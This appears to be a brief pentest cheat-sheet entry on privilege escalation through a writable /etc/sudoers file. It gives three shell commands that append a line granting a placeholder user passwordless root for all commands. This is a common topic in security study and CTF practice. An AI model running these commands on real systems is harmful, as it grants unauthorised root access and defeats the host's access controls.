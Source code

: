 ```yaml
---
title: "sudoers"
date: 2024-7-3
tags: ["sudoers", "sudo", "privesc", "/etc/sudoers"]
---
```


#### Abuse #1: Writable /etc/sudoers

```console
chmod 600 /etc/sudoers
```

```console
echo '<USER>   ALL=(ALL) NOPASSWD: ALL' >> /etc/sudoers
```

```console
chmod 440 /etc/sudoers
```
